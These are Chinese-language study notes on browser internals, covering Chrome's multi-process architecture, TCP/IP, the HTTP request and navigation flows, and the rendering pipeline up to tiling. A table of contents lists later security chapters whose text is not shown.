- [导学](#导学)
  - [00 | 开篇词](#00--开篇词)
    - [浏览器的进化路线](#浏览器的进化路线)
    - [为什么需要学习浏览器工作原理？](#为什么需要学习浏览器工作原理)
    - [课程脉络](#课程脉络)
- [宏观视角下的浏览器](#宏观视角下的浏览器)
  - [01丨Chrome架构：仅仅打开了1个页面，为什么有4个进程？](#01丨chrome架构仅仅打开了1个页面为什么有4个进程)
    - [学习方法](#学习方法)
    - [前置知识：进程和线程](#前置知识进程和线程)
    - [单进程浏览器时代](#单进程浏览器时代)
    - [多进程浏览器时代](#多进程浏览器时代)
    - [目前多进程架构](#目前多进程架构)
    - [未来面向服务的架构](#未来面向服务的架构)
  - [02丨TCP协议：如何保证页面文件能被完整送达浏览器？](#02丨tcp协议如何保证页面文件能被完整送达浏览器)
    - [数据包如何送达主机 （ IP：把数据包送达目的主机 ）](#数据包如何送达主机--ip把数据包送达目的主机-)
    - [主机如何将数据包转交给应用 （ UDP：把数据包送达应用程序 ）](#主机如何将数据包转交给应用--udp把数据包送达应用程序-)
    - [数据是如何被完整地送达应用程序](#数据是如何被完整地送达应用程序)
  - [03丨HTTP请求流程：为什么很多站点第二次打开速度会很快？](#03丨http请求流程为什么很多站点第二次打开速度会很快)
    - [HTTP 请求全流程](#http-请求全流程)
    - [问题：为什么很多站点第二次打开速度会很快？](#问题为什么很多站点第二次打开速度会很快)
    - [问题：登录状态是如何保持的？](#问题登录状态是如何保持的)
  - [04丨导航流程：从输入URL到页面展示，这中间发生了什么？](#04丨导航流程从输入url到页面展示这中间发生了什么)
    - [1. 用户输入](#1-用户输入)
    - [2. URL 请求过程](#2-url-请求过程)
    - [3. 准备渲染进程](#3-准备渲染进程)
    - [4. 提交文档](#4-提交文档)
    - [5. 渲染阶段](#5-渲染阶段)
  - [05 & 06丨渲染流程：HTML、CSS和JavaScript，是如何变成页面的？](#05--06丨渲染流程htmlcss和javascript是如何变成页面的)
    - [一、构建 DOM 树](#一构建-dom-树)
    - [二、样式计算](#二样式计算)
    - [三、布局阶段](#三布局阶段)
    - [四、分层](#四分层)
    - [五、绘制](#五绘制)
    - [六、分块](#六分块)
    - [七、栅格化](#七栅格化)
    - [八、合成和显示](#八合成和显示)
- [浏览器中的JavaScript执行机制](#浏览器中的javascript执行机制)
  - [07丨变量提升：JavaScript代码是按顺序执行的吗？](#07丨变量提升javascript代码是按顺序执行的吗)
    - [为什么可以在定义之前使用变量或者函数？](#为什么可以在定义之前使用变量或者函数)
    - [JavaScript 代码的执行流程](#javascript-代码的执行流程)
  - [08丨调用栈：为什么JavaScript代码会出现栈溢出？](#08丨调用栈为什么javascript代码会出现栈溢出)
  - [09丨块级作用域：var缺陷以及为什么要引入let和const？](#09丨块级作用域var缺陷以及为什么要引入let和const)
    - [为什么在 JavaScript 中会存在变量提升](#为什么在-javascript-中会存在变量提升)
    - [变量提升所带来的问题](#变量提升所带来的问题)
    - [ES6 是如何解决变量提升带来的缺陷](#es6-是如何解决变量提升带来的缺陷)
    - [JavaScript 是如何支持块级作用域的](#javascript-是如何支持块级作用域的)
  - [10丨作用域链和闭包：代码中出现相同的变量，JavaScript引擎是如何选择的？](#10丨作用域链和闭包代码中出现相同的变量javascript引擎是如何选择的)
    - [什么是作用域链](#什么是作用域链)
    - [什么是闭包？](#什么是闭包)
  - [11丨this：从JavaScript执行上下文的视角讲清楚this](#11丨this从javascript执行上下文的视角讲清楚this)
  - [总结 - 浏览器中的JavaScript执行机制](#总结---浏览器中的javascript执行机制)
- [V8工作原理](#v8工作原理)
  - [12丨栈空间和堆空间：数据是如何存储的？](#12丨栈空间和堆空间数据是如何存储的)
  - [13丨垃圾回收：垃圾数据是如何自动回收的？](#13丨垃圾回收垃圾数据是如何自动回收的)
    - [调用栈中的数据是如何回收的](#调用栈中的数据是如何回收的)
    - [堆中的数据是如何回收的](#堆中的数据是如何回收的)
  - [14丨编译器和解释器：V8是如何执行一段JavaScript代码的？](#14丨编译器和解释器v8是如何执行一段javascript代码的)
  - [15丨消息队列和事件循环：页面是怎么“活”起来的？](#15丨消息队列和事件循环页面是怎么活起来的)
  - [16丨WebAPI：setTimeout是如何实现的？](#16丨webapisettimeout是如何实现的)
  - [17丨WebAPI：XMLHttpRequest是怎么实现的？](#17丨webapixmlhttprequest是怎么实现的)
  - [18丨宏任务和微任务：不是所有任务都是一个待遇](#18丨宏任务和微任务不是所有任务都是一个待遇)
  - [19丨Promise：使用Promise，告别回调函数](#19丨promise使用promise告别回调函数)
  - [20丨async-await：使用同步的方式去写异步代码](#20丨async-await使用同步的方式去写异步代码)
- [浏览器中的页面](#浏览器中的页面)
  - [21丨Chrome开发者工具：利用网络面板做性能分析](#21丨chrome开发者工具利用网络面板做性能分析)
  - [22丨DOM树：JavaScript是如何影响DOM树构建的？](#22丨dom树javascript是如何影响dom树构建的)
  - [23丨渲染流水线：CSS如何影响首次加载时的白屏时间？](#23丨渲染流水线css如何影响首次加载时的白屏时间)
  - [24丨分层和合成机制：为什么CSS动画比JavaScript高效？](#24丨分层和合成机制为什么css动画比javascript高效)
  - [25丨页面性能：如何系统地优化页面？](#25丨页面性能如何系统地优化页面)
  - [26丨虚拟DOM：虚拟DOM和实际的DOM有何不同？](#26丨虚拟dom虚拟dom和实际的dom有何不同)
  - [27丨渐进式网页应用（PWA）：它究竟解决了Web应用的哪些问题？](#27丨渐进式网页应用pwa它究竟解决了web应用的哪些问题)
  - [28丨WebComponent：像搭积木一样构建Web应用](#28丨webcomponent像搭积木一样构建web应用)
- [浏览器中的网络](#浏览器中的网络)
  - [29丨HTTP-1：HTTP性能优化](#29丨http-1http性能优化)
  - [30｜HTTP-2：如何提升网络速度？](#30｜http-2如何提升网络速度)
  - [31｜HTTP-3：甩掉TCP、TLS的包袱，构建高效网络](#31｜http-3甩掉tcptls的包袱构建高效网络)
- [浏览器安全](#浏览器安全)
  - [32丨同源策略：为什么XMLHttpRequest不能跨域请求资源？](#32丨同源策略为什么xmlhttprequest不能跨域请求资源)
  - [33丨跨站脚本攻击（XSS）：为什么Cookie中有HttpOnly属性？](#33丨跨站脚本攻击xss为什么cookie中有httponly属性)
  - [34丨CSRF攻击：陌生链接不要随便点](#34丨csrf攻击陌生链接不要随便点)
  - [35丨安全沙箱：页面和系统之间的隔离墙](#35丨安全沙箱页面和系统之间的隔离墙)
  - [36丨HTTPS：让数据传输更安全](#36丨https让数据传输更安全)


<br>

# 导学

## 00 | 开篇词

### 浏览器的进化路线

了解浏览器三个大的进化路线，可以让你了解目前的 Web 应用到底能做什么，以及未来能适用于那些新领域。

第一个是**应用程序 Web 化**。越来越多的应用转向了浏览器 / 服务器（B/S）架构

第二个是**Web 应用移动化**。Google 推出了 PWA 方案来整合 Web 和本地程序各自的优势

第三个是**Web 操作系统**化。Web 操作系统有两层含义：一是利用 Web 技术构建一个纯粹的操作系统，如 ChromeOS；二是浏览器的底层结构往操作系统架构方向发展，在整个架构演化的大背景下会牵涉诸多改变，下面列举一些相对重要的改变。

- Chrome 朝着 SOA 的方向演化，未来很多模块都会以服务的形式提供给上层应用使用；
- 在浏览器中引入多种编程语言的支持，比如新支持的 WebAssembly；
- 简化渲染流程，使得渲染过程更加直接高效；
- 加大对系统设备特性的支持；
- 提供对复杂 Web 项目开发的支持。

也就是说，**浏览器已经逐步演化成了操作系统之上的“操作系统”**。

### 为什么需要学习浏览器工作原理？

**一、准确评估 Web 开发项目的可行性**

**二、从更高维度审视页面**

不懂浏览器原因，把浏览器看成一个黑盒，左边输入一个 URL，经过黑盒处理之后，右边返回你预期的效果。你依然可以写前端代码，也可以使用很多最佳实践的策略来优化代码，这就如同不了解操作系统的工作原理同样可以在操作系统上写应用一样。

而如果你了解了浏览器的工作原理，更加可以把这些知识点串成线，连成网，最终形成自己的知识体系，练就像专家一样思考问题、解决问题的能力。

**三、在快节奏的技术迭代中把握本质**

当前，浏览器功能以及整个前端的开发环境，不足以支撑日益增长的需求。

了解了浏览器的工作机制，那么你可以梳理出来前端技术的发展脉络，更加深刻地理解当前的技术，同时你也会清楚其不足之处，以及演化方向。

**那么接下来，我们看看前端技术是如何针对这些核心诉求做演进的？**

1. 首先是脚本执行速度问题

比如针对 JavaScript 设计缺陷和执行效率的问题，可以从以下两个途径去解决：

- 不断修订和更新语言本身，比如 ES6、ES7、ES8，或者 TypeScript
- 颠覆性地使用新的语言，比如 WebAssembly

2. 其次是前端模块化开发，比如 WebComponents

3. 最后是渲染效率问题。

一方面，目前页面的渲染依然存在很大缺陷，你清楚如何避开这些问题，从而开发出更加高效的 Web 应用。

另一方面，Chrome 团队也在着手改善这些缺陷，比如正在开发的下一代布局方案 LayoutNG，还有渲染瘦身方案 Slim Paint，其目的都是让渲染变得更加简单和高效。

综上可以看出，触发这些改变的背后因素是当前技术制约了现实的需求，所以了解浏览器是如何工作的，能让你站在更高维度去理解前端。

### 课程脉络

- 宏观视角下的浏览器
- 浏览器中的JavaScript执行机制
- V8工作原理
- 浏览器中的页面循环系统
- 浏览器中的页面
- 浏览器中的网络
- 浏览器安全

<br>

# 宏观视角下的浏览器

<br/>

## 01丨Chrome架构：仅仅打开了1个页面，为什么有4个进程？

**学习方法**

通过浏览器的多进程架构的学习，你就可以把分散的知识点串起来，组成一张网，从而让自己能站在更高的维度去理解 Web 应用。

**前置知识：进程和线程**

关于进程跟线程的理解，参考阮一峰的[文章](https://www.ruanyifeng.com/blog/2013/04/processes_and_threads.html)，这里重点了解下进程和线程之间的关系。

1. 进程中的任意一线程执行出错，都会导致整个进程的崩溃。
2. 线程之间共享进程中的数据。
3. 当一个进程关闭之后，操作系统会回收进程所占用的内存。
4. 进程之间的内容相互隔离，进程间相互通讯，要使用IPC。

**单进程浏览器时代**

单进程浏览器是指浏览器的所有功能模块都是运行在同一个进程里，这些模块包含了网络、插件、JavaScript 运行环境、渲染引擎和页面等。

其实早在 2007 年之前，市面上浏览器都是单进程的。

单进程浏览器的架构如下图所示：

<br/>

<br/>

如此多的功能模块运行在一个进程里，是导致单进程浏览器不稳定、不流畅和不安全的一个主要因素。

- 不稳定：插件、渲染引擎模块容易导致整个浏览器的崩溃。
- 不流畅：所有页面的渲染模块、JavaScript 执行环境以及插件都是运行在同一个线程中的，这就意味着同一时刻只能有一个模块可以执行。脚本、插件、内存泄漏都会让单进程浏览器变卡顿。
- 不安全：插件可以获取到操作系统的任意资源，页面脚本可以通过浏览器的漏洞来获取系统权限

**多进程浏览器时代**

2008 年 Chrome 发布时的进程架构

<br/>

<br/>

由于不稳定、不流畅和不安全的问题，主要是插件跟渲染模块引起的，那只要将其隔离开，问题就可以得到解决。

从图中可以看出，Chrome 把渲染模块跟插件运行在单独的进程中，而进程之间是通过 IPC 机制进行通信（如图中虚线部分）。

多进程架构可以解决早期不稳定、不流畅和不安全的问题。

- 解决不稳定的问题：由于进程是相互隔离的，所以当一个页面或者插件崩溃时，影响到的仅仅是当前的页面进程或者插件进程，并不会影响到浏览器和其他页面
- 解决不流畅的问题：JavaScript 阻塞只会影响到它所运行的渲染进程，而不会影响浏览器和其他页面。对于内存泄漏的解决方法那就更简单了，关闭页面，整个渲染进程也会被关闭，之后该进程所占用的内存都会被系统回收。
- 解决不安全的问题：采用多进程架构的额外好处是可以使用安全沙箱，Chrome 把插件进程和渲染进程锁在沙箱里面，这样即使在渲染进程或者插件进程里面执行了恶意程序，恶意程序也无法突破沙箱去获取系统权限。

**目前多进程架构**

<br/>

<br/>

随着浏览器的演进，网络进程 跟 GPU 进程 也独立成单独的进程。

<br>

从图中可以看出，最新的 Chrome 浏览器包括：1 个浏览器（Browser）主进程、1 个 GPU 进程、1 个网络（NetWork）进程、多个渲染进程和多个插件进程。

下面我们来逐个分析下这几个进程的功能。

- 浏览器进程。主要负责界面显示、用户交互、子进程管理，同时提供存储等功能。
- 渲染进程。核心任务是将 HTML、CSS 和 JavaScript 转换为用户可以与之交互的网页，排版引擎 Blink 和 JavaScript 引擎 V8 都是运行在该进程中，默认情况下，Chrome 会为每个 Tab 标签创建一个渲染进程。出于安全考虑，渲染进程都是运行在沙箱模式下。
- GPU 进程。绘制 UI 界面
- 网络进程。网络资源加载
- 插件进程。负责插件的运行

讲到这里，现在你应该就可以回答文章开头提到的问题了：仅仅打开了 1 个页面，为什么有 4 个进程？

因为打开 1 个页面至少需要 1 个网络进程、1 个浏览器进程、1 个 GPU 进程以及 1 个渲染进程，共 4 个；如果打开的页面有运行插件的话，还需要再加上 1 个插件进程。

**未来面向服务的架构**

凡事都有两面性，虽然多进程模型提升了浏览器的稳定性、流畅性和安全性，但同样不可避免地带来了一些问题：

- 更高的资源占用。因为每个进程都会包含公共基础结构的副本（如 JavaScript 运行环境），这就意味着浏览器会消耗更多的内存资源。
- 更复杂的体系架构。浏览器各模块之间耦合性高、扩展性差等问题，会导致现在的架构已经很难适应新的需求了。

为了解决复杂的体系架构问题，在 2016 年，Chrome 官方团队使用“面向服务的架构”（简称SOA）的思想设计了新的 Chrome 架构。

Chrome 最终要把 UI、数据库、文件、设备、网络等模块重构为基础服务，类似操作系统底层服务，下面是 Chrome“面向服务的架构”的进程模型图：

<br/>

<br/>

Chrome 正在逐步构建 Chrome 基础服务（Chrome Foundation Service），如果你认为 Chrome 是“便携式操作系统”，那么 Chrome 基础服务便可以被视为该操作系统的“基础”系统服务层。

为了解决资源占用问题， Chrome 还提供灵活的弹性架构，在强大性能设备上会以多进程的方式运行基础服务，但是如果在资源受限的设备上（如下图），Chrome 会将很多服务整合到一个进程中，从而节省内存占用。

<br/>

<br/>

**小结**

本节从 Chrome 进程架构的视角，分析了浏览器的进化史。

最初的浏览器都是单进程的，它们不稳定、不流畅且不安全，之后出现了 Chrome，创造性地引入了多进程架构，并解决了这些遗留问题。

随后 Chrome 试图应用到更多业务场景，如移动设备、VR、视频等，为了支持这些场景，Chrome 的架构体系变得越来越复杂，这种架构的复杂性倒逼 Chrome 开发团队必须进行架构的重构，最终 Chrome 团队选择了面向服务架构（SOA）形式，这也是 Chrome 团队现阶段的一个主要任务。


<br/>

## 02丨TCP协议：如何保证页面文件能被完整送达浏览器？

在网络中，一个文件通常会被拆分为很多数据包来进行传输，而数据包在传输过程中又有很大概率丢失或者出错。

那么如何保证页面文件能被完整地送达浏览器呢？

对于这个问题，我们可以拆分成三个小问题逐一解答。

**数据包如何送达主机**

IP 负责把数据包送达目的主机，IP 地址就是目标计算机的地址。

如果要想把一个数据包从主机 A 发送给主机 B，那么在传输之前，数据包上会被附加上主机 B 的 IP 地址信息，这样在传输过程中才能正确寻址。

额外地，数据包上还会附加上主机 A 本身的 IP 地址，有了这些信息主机 B 才可以回复信息给主机 A。

这些附加的信息会被装进一个叫 IP 头的数据结构里。IP 头是 IP 数据包开头的信息，包含 IP 版本、源 IP 地址、目标 IP 地址、生存时间等信息。

为了方便理解，我先把网络简单分为三层结构，如下图：

<br/>

<br/>

下面我们一起来看下一个数据包从主机 A 到主机 B 的旅程：

- 上层将含有“极客时间”的数据包交给网络层；
- 网络层再将 IP 头附加到数据包上，组成新的 IP 数据包，并交给底层；
- 底层通过物理网络将数据包传输给主机 B；
- 数据包被传输到主机 B 的网络层，在这里主机 B 拆开数据包的 IP 头信息，并将拆开来的数据部分交给上层；
- 最终，含有“极客时间”信息的数据包就到达了主机 B 的上层了。

**主机如何将数据包转交给应用**

UDP 负责把数据包送达应用程序

IP 是非常底层的协议，只负责把数据包传送到对方电脑，但是对方电脑并不知道把数据包交给哪个程序。

因此，需要基于 IP 之上开发能和应用打交道的协议，最常见的是“用户数据包协议”，简称UDP。

UDP 中一个最重要的信息是端口号，端口号其实就是一个数字，每个想访问网络的程序都需要绑定一个端口号。

通过端口号 UDP 就能把指定的数据包发送给指定的程序了，所以 IP 通过 IP 地址信息把数据包发送给指定的电脑，而 UDP 通过端口号把数据包分发给正确的程序。

和 IP 头一样，端口号会被装进 UDP 头里面，UDP 头再和原始数据包合并组成新的 UDP 数据包。UDP 头中除了目的端口，还有源端口号等信息。

为了支持 UDP 协议，我把前面的三层结构扩充为四层结构，在网络层和上层之间增加了传输层，如下图所示：

<br/>

<br/>

下面我们一起来看下一个数据包从主机 A 旅行到主机 B 的路线：

- 上层将含有“极客时间”的数据包交给传输层；
- 传输层会在数据包前面附加上 UDP 头，组成新的 UDP 数据包，再将新的 UDP 数据包交给网络层；
- 网络层再将 IP 头附加到数据包上，组成新的 IP 数据包，并交给底层；
- 数据包被传输到主机 B 的网络层，在这里主机 B 拆开 IP 头信息，并将拆开来的数据部分交给传输层；
- 在传输层，数据包中的 UDP 头会被拆开，并根据 UDP 中所提供的端口号，把数据部分交给上层的应用程序；
- 最终，含有“极客时间”信息的数据包就旅行到了主机 B 上层应用程序这里。

使用 UDP 发送数据，优点是传输速度快，缺点是 UDP 无法对丢失的数据包提供重发机制，也无法确定数据包是否达到目的地，

**数据是如何被完整地送达应用程序**

对于浏览器请求，或者邮件这类要求数据传输可靠性（reliability）的应用，如果使用 UDP 来传输会存在两个问题：

- 数据包在传输过程中容易丢失；
- 大文件会被拆分成很多小的数据包来传输， UDP 无法组装这些数据包

基于这两个问题，我们引入 TCP 了。TCP（传输控制协议）是一种面向连接的、可靠的、基于字节流的传输层通信协议。相对于 UDP，TCP 有下面两个特点:

- 对于数据包丢失的情况，TCP 提供重传机制；
- TCP 引入了数据包排序机制，用来保证把乱序的数据包组合成一个完整的文件。

和 UDP 头一样，TCP 头除了包含了目标端口和本机端口号外，还提供了用于排序的序列号，以便接收端通过序号来重排数据包。

下面看看 TCP 下的单个数据包的传输流程：

<br/>

<br/>

通过上图你应该可以了解一个数据包是如何通过 TCP 来传输的。TCP 单个数据包的传输流程和 UDP 流程差不多，不同的地方在于，通过 TCP 头的信息保证了一块大的数据传输的完整性。

下面我们再看下完整的 TCP 连接过程，通过这个过程你可以明白 **TCP 是如何保证重传机制和数据包的排序功能的**。

从下图可以看出，一个完整的 TCP 连接的生命周期包括了“建立连接”“传输数据”和“断开连接”三个阶段。


<br/>

<br/>

首先，建立连接阶段。

这个阶段是通过“三次握手”来建立客户端和服务器之间的连接。

TCP 提供面向连接的通信传输。面向连接是指在数据通信开始之前先做好两端之间的准备工作。

所谓三次握手，是指在建立一个 TCP 连接时，客户端和服务器总共要发送三个数据包以确认连接的建立。

其次，传输数据阶段。

在该阶段，接收端需要对每个数据包进行确认操作，也就是接收端在接收到数据包之后，需要发送确认数据包给发送端。

所以当发送端发送了一个数据包之后，在规定时间内没有接收到接收端反馈的确认消息，则判断为数据包丢失，并触发发送端的重发机制。

同样，一个大的文件在传输过程中会被拆分成很多小的数据包，这些数据包到达接收端后，接收端会按照 TCP 头中的序号为其排序，从而保证组成完整的数据。

最后，断开连接阶段。

数据传输完毕之后，就要终止连接了，涉及到最后一个阶段“四次挥手”来保证双方都能断开连接。


到这里你应该就明白了，TCP 为了保证数据传输的可靠性，牺牲了数据包的传输速度，因为“三次握手”和“数据包校验机制”等把传输过程中的数据包的数量提高了一倍。

**小结**

- 互联网中的数据是通过数据包来传输的，数据包在传输过程中容易丢失或出错。
- IP 负责把数据包送达目的主机。
- UDP 负责把数据包送达具体应用。
- 而 TCP 保证了数据完整地传输，它的连接可分为三个阶段：建立连接、传输数据和断开连接。

其实了解 TCP 协议，是为了全方位了解 HTTP，包括其实际功能和局限性，之后才会更加深刻地理解为什么要推出 HTTP/2，以及为什么要推出 QUIC 协议，也就是未来的 HTTP/3。

<br/>

## 03丨HTTP请求流程：为什么很多站点第二次打开速度会很快？

HTTP 协议，是建立在 TCP 连接基础之上的。HTTP 是一种允许浏览器向服务器获取资源的协议

这篇文章，我将通过分析一个 HTTP 请求过程中每一步的状态来带你了解完整的 HTTP 请求过程。

**HTTP 请求全流程**

下面是“HTTP 请求示意图”，用来展现浏览器中的 HTTP 请求所经历的各个阶段。

<br/>

<br/>

从图中可以看到，浏览器中的 HTTP 请求从发起到结束一共经历了如下九个阶段：

- 构建请求

首先，浏览器构建请求行信息 `GET /index.html HTTP1.1`

- 查找缓存

在真正发起网络请求之前，浏览器会先在浏览器缓存中查询是否有要请求的文件。

当浏览器发现请求的资源已经在浏览器缓存中存有副本，它会拦截请求，返回该资源的副本，并直接结束请求，而不会再去源服务器重新下载。

当然，如果缓存查找失败，就会进入网络请求过程了。

- 准备 IP 和端口

浏览器使用 HTTP 协议作为应用层协议，用来封装请求的文本信息；并使用 TCP/IP 作传输层协议将它发到网络上。

所以在 HTTP 工作开始之前，浏览器需要通过 TCP 与服务器建立连接。也就是说 HTTP 的内容是通过 TCP 的传输数据阶段来实现的

<br/>

<br/>

建立 TCP 连接的第一步就是需要准备 IP 地址和端口号。

所以网络请求的第一步，第一步浏览器会请求 DNS 返回域名对应的 IP。

至于端口号，通常情况下，如果 URL 没有特别指明端口号，那么 HTTP 协议默认是 80 端口。

- 等待 TCP 队列

Chrome 有个机制，同一个域名同时最多只能建立 6 个 TCP 连接。

如果在同一个域名下同时有 10 个请求发生，那么其中 4 个请求会进入排队等待状态，直至进行中的请求完成。

当然，如果当前请求数量少于 6，会直接进入下一步，建立 TCP 连接。

- 建立 TCP 连接

浏览器通过 TCP 与服务器建立连接。

- 发起 HTTP 请求

一旦建立了 TCP 连接，浏览器就可以和服务器进行通信了。而 HTTP 中的数据正是在这个通信过程中传输的。

- 服务器处理请求

首先浏览器会向服务器发送请求行，它包括了请求方法、请求 URI 和 HTTP 版本协议。

在浏览器发送请求行命令之后，还要以请求头形式发送其他一些信息，把浏览器的一些基础信息告诉服务器。比如包含了浏览器所使用的操作系统、浏览器内核等信息，以及当前请求的域名信息、浏览器端的 Cookie 信息，等等。

- 服务器返回请求

首先服务器会返回响应行，包括协议版本和状态码。

随后，正如浏览器会随同请求发送请求头一样，服务器也会随同响应向浏览器发送响应头。响应头包含了服务器自身的一些信息，比如服务器生成返回数据的时间、返回的数据类型（JSON、HTML、流媒体等类型），以及服务器要在客户端保存的 Cookie 等信息。

发送完响应头后，服务器就可以继续发送响应体的数据，通常，响应体就包含了 HTML 的实际内容。

以上这些就是服务器响应浏览器的具体过程。

- 断开连接

通常情况下，一旦服务器向客户端返回了请求数据，它就要关闭 TCP 连接。不过如果浏览器或者服务器在其头信息中加入了：`Connection:Keep-Alive `

那么 TCP 连接在发送后将仍然保持打开状态，这样浏览器就可以继续通过同一个 TCP 连接发送请求。

保持 TCP 连接可以省去下次请求时需要建立连接的时间，提升资源加载速度。

**问题：为什么很多站点第二次打开速度会很快？**

简要来说，很多网站第二次访问能够秒开，是因为这些网站把很多资源都缓存在了本地，浏览器缓存直接使用本地副本来回应请求，而不会产生真实的网络请求，从而节省了时间。

同时，DNS 数据也被浏览器缓存了，这又省去了 DNS 查询环节。

我们重点看下浏览器资源缓存，下面是缓存处理的过程：

<br/>

<br/>

### 问题：登录状态是如何保持的？

简单地说，如果服务器端发送的响应头内有 Set-Cookie 的字段，那么浏览器就会将该字段的内容保持到本地。

当下次客户端再往该服务器发送请求时，客户端会自动在请求头中加入 Cookie 值后再发送出去。

服务器端发现客户端发送过来的 Cookie 后，会去检查究竟是从哪一个客户端发来的连接请求，然后对比服务器上的记录，最后得到该用户的状态信息。

<br/>

## 04丨导航流程：从输入URL到页面展示，这中间发生了什么？

从输入 URL 到页面展示完整流程示意图

<br/>

<br/>

这个过程需要浏览器进程、渲染进程和网络进程的配合，先回顾下它们的主要职责：

- 浏览器进程：主要负责用户交互、子进程管理和文件储存等功能
- 网络进程：网络下载
- 渲染进程：解析页面

回顾了浏览器的进程架构后，我们再结合上图来看下这个完整的流程，可以看出，整个流程包含了许多步骤，我把其中几个核心的节点用蓝色背景标记出来了。这个过程可以大致描述为如下：

- 首先，用户从浏览器进程里输入请求信息；
- 然后，网络进程发起 URL 请求；
- 服务器响应 URL 请求之后，浏览器进程就又要开始准备渲染进程了；
- 渲染进程准备好之后，浏览器进程需要先向渲染进程提交页面数据，我们称之为提交文档阶段；
- 渲染进程接收完文档信息之后，便开始解析页面和加载子资源，完成页面的渲染。

这其中，用户发出 URL 请求到页面开始渲染的这个过程，就叫做导航。

下面我们来详细分析下这些步骤，同时也就解答了开头所说的那道经典的面试题。

1. 用户输入

当用户在地址栏中输入一个查询关键字时，地址栏会判断输入的关键字是搜索内容，还是请求的 URL。

- 如果是搜索内容，地址栏会使用浏览器默认的搜索引擎，来合成新的带搜索关键字的 URL。
- 如果判断输入内容符合 URL 规则，比如输入的是 time.geekbang.org，那么地址栏会根据规则，把这段内容加上协议，合成为完整的 URL，如 `https://time.geekbang.org`。

当浏览器刚开始加载一个地址之后，标签页上的图标便进入了加载状态。但此时图中页面显示的依然是之前打开的页面内容。因为需要等待提交文档阶段，页面内容才会被替换。

2. URL 请求过程

接下来，便进入了页面资源请求过程。

这时，浏览器进程会通过进程间通信（IPC）把 URL 请求发送至网络进程，网络进程接收到 URL 请求后，会在这里发起真正的 URL 请求流程。

那具体流程是怎样的呢？

首先，网络进程会查找本地缓存是否缓存了该资源。

如果有缓存资源，那么直接返回资源给浏览器进程；

如果在缓存中没有查找到资源，那么直接进入网络请求流程。

这请求前的第一步是要进行 DNS 解析，以获取请求域名的服务器 IP 地址。如果请求协议是 HTTPS，那么还需要建立 TLS 连接。

接下来就是利用 IP 地址和服务器建立 TCP 连接。

连接建立之后，浏览器端会构建请求行、请求头等信息，并把和该域名相关的 Cookie 等数据附加到请求头中，然后向服务器发送构建的请求信息。

服务器接收到请求信息后，会根据请求信息生成响应数据（包括响应行、响应头和响应体等信息），并发给网络进程。

等网络进程接收了响应行和响应头之后，就开始解析响应头的内容了。

3. 准备渲染进程

Chrome 默认采用每个标签对应一个渲染进程，但是如果两个页面属于同一站点，那这两个标签会使用同一个渲染进程。

同一站点，即包含了相同根域名和相同协议的地址

渲染进程准备好之后，还不能立即进入文档解析状态，因为此时的文档数据还在网络进程中，并没有提交给渲染进程，所以下一步就进入了提交文档阶段。

4. 提交文档

首先要明确一点，这里的“文档”是指 URL 请求的响应体数据。

- “提交文档”的消息是由浏览器进程发出的，渲染进程接收到“提交文档”的消息后，会和网络进程建立传输数据的“管道”。
- 等文档数据传输完成之后，渲染进程会返回“确认提交”的消息给浏览器进程。
- 浏览器进程在收到“确认提交”的消息后，会更新浏览器界面状态，包括了安全状态、地址栏的 URL、前进后退的历史状态，并更新 Web 页面。

<br/>

<br/>

这也就解释了为什么在浏览器的地址栏里面输入了一个地址后，之前的页面没有立马消失，而是要加载一会儿才会更新页面。

到这里，一个完整的导航流程就“走”完了，这之后就要进入渲染阶段了。

5. 渲染阶段

一旦文档被提交，渲染进程便开始页面解析和子资源加载了

一旦页面生成完成，渲染进程会发送一个消息给浏览器进程，浏览器接收到消息后，会停止标签图标上的加载动画。

至此，一个完整的页面就生成了。那文章开头的“从输入 URL 到页面展示，这中间发生了什么？”这个过程极其“串联”的问题也就解决了。

**小结**

下面简单总结下这篇文章的要点：

- 服务器可以根据响应头来控制浏览器的行为，如跳转、网络数据类型判断。
- Chrome 默认采用每个标签对应一个渲染进程，但是如果两个页面属于同一站点，那这两个标签会使用同一个渲染进程。
- 浏览器的导航过程涵盖了从用户发起请求到提交文档给渲染进程的中间所有阶段。

导航流程很重要，它是网络加载流程和渲染流程之间的一座桥梁，如果你理解了导航流程，那么你就能完整串起来整个页面显示流程，这对于你理解浏览器的工作原理起到了点睛的作用。


<br/>

## 05 & 06丨渲染流程：HTML、CSS和JavaScript，是如何变成页面的？

<br/>

<br/>

从图中可以看出，左边输入的是 HTML、CSS、JavaScript 数据，这些数据经过中间渲染模块的处理，最终输出为屏幕上的像素。

渲染模块是个流水线，一共经历八个阶段。

- 构建 DOM 树
- 样式计算
- 布局阶段
- 分层
- 绘制
- 分块
- 光栅化
- 合成和显示

每个阶段重点关注以下三点内容：

- 开始每个子阶段都有其输入的内容；
- 然后每个子阶段有其处理过程；
- 最终每个子阶段会生成输出内容。

**一、构建 DOM 树**

- 输入：HTML
- 处理：HTML 解析器解析
- 输出：生成 DOM 树

<br/>

<br/>

**二、样式计算**

- 输入：CSS
- 处理：生成 styleSheets，进行属性值的标准化操作，计算出 DOM 树中每个节点的具体样式（涉及到 CSS 的继承规则和层叠规则）
- 输出：每个元素的具体样式

<br/>

<br/>

**三、布局阶段**

- 输入：DOM 树和 DOM 树中元素的样式
- 处理：创建一棵只包含可见元素的布局树，计算可见元素的几何位置
- 输出：布局树

注意：在执行布局操作的时候，会把布局运算的结果重新写回布局树中，所以布局树既是输入内容也是输出内容，这是布局阶段一个不合理的地方，因为在布局阶段并没有清晰地将输入内容和输出内容区分开来。针对这个问题，Chrome 团队正在重构布局代码，下一代布局系统叫 LayoutNG，试图更清晰地分离输入和输出，从而让新设计的布局算法更加简单。

<br/>

<br/>

**四、分层**

- 输入：布局树
- 处理：渲染引擎为特定的节点生成专用的图层，并生成一棵对应的图层树
- 输出：图层树

问题：需要满足什么条件，渲染引擎才会为特定的节点创建新的层呢？

1. 拥有层叠上下文属性的元素会被提升为单独的一层。（ 明确定位属性的元素、定义透明属性的元素、使用 CSS 滤镜的元素等，都拥有层叠上下文属性 ）
2. 需要剪裁（clip）的地方也会被创建为图层。（ 比如 overflow ）

<br/>

<br/>

**五、绘制**

- 输入：图层树
- 处理：渲染引擎把每一个图层的绘制拆分成很多小的绘制指令
- 输出：待绘制指令列表

<br/>

<br/>

绘制列表只是用来记录绘制顺序和绘制指令的列表，而实际上绘制操作是由渲染引擎中的合成线程来完成的。你可以结合下图来看下渲染主线程和合成线程之间的关系：

<br/>

<br/>

如上图所示，当图层的绘制列表准备好之后，主线程会把该绘制列表提交（commit）给合成线程

**六、分块**

- 输入：图层的绘制列表
- 处理：优先绘制视口，合成线程会将图层划分为图块
- 输出：图块，这些图块的大小通常是 256x256 或者 512x512
- 位置：渲染进程的合成线程中

<br/>

